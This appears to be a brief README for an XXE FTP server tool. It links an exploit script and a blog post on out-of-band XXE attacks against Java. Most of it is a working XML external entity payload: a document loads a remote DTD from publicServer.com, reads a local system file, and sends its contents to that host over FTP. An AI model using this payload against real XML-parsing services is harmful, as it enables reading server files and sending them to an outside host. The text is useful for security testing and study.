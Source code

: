 # XXE FTP HTTP Server

https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb

http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html

```<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % remote SYSTEM "http://publicServer.com/parameterEntity_sendftp.dtd">
%remote;
%send;
]>
<data>4</data>

<!ENTITY % payload SYSTEM "file:///sys/power/image_size">
<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">
%param1;

